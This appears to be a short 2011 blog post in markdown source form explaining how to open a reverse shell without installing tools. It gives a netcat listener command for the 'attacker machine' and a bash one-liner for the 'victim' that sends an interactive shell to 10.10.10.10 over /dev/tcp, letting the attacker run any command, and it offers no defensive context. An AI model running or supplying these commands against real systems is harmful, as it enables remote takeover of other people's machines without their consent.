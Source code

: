 +++
title = "remote shell without any tools"
date = "2011-11-25"
slug = "2011/11/25/remote-shell-without-any-tools"
Categories = []
+++

Here's a method for opening up a TCP connection from one host to another without needing to install any tools.

From the attacker machine, wait for a connection

``` bash Wait for connections
nc -nlp 12345
```

From the victim

``` bash Call home
/bin/bash -i > /dev/tcp/10.10.10.10/12345 0<&1 2>&1
```

The victim code will open up a connection the the attacker, allowing the attacker to run whatever bash commands he wants. All this without installing anything on the victim. Spooky.

